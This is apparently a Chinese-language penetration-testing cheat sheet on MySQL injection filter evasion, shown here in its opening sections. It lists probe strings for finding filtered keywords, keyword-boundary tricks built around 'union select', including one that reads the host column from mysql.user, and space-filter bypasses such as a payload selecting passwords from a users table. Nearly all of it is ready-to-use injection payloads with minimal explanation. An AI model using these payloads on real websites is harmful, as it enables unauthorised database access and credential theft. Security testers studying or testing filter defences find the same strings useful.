 ```yaml
---
title: "mysql注入过滤"
date: 2016-04-25 21:09
---
```



## 过滤识别

### 查找关键字

```
and 1=1
and =
and 1
and (select 1)
and union
and union select
and union select 1,2,
and union/**/select/**/1,2
and select
?id=2078-1
?id=2078-if(1,0,1)
?id=2077-mid(123,1,1)
```

### 识别关键词边界

```
where id=8E0union select 1,2,3,4,5,6,7,8,9,0
where id=8.0union select 1,2,3,4,5,6,7,8,9,0
where id=\Nunion select 1,2,3,4,5,6,7,8,9,0
where id=.1union/*.1*/select-.1
where id=.1union/*.1*/select!.1
where id=.1union/*.1*/select~.1
where id=.1union/*.1*/select(1)
where id=.1union/*.1*/select`host`from mysql.user
where id=.1union/*.1*/select'1'
where id=.1union/*.1*/select"1"
where id=.1union/*.1*/select@1
```

## 特殊符号绕过

### 过滤空格

在MySQL中可替换为：

```
SQL> select * from`user`;
SQL> 'and(true)like(false)union(select(pass)from(users))#
```
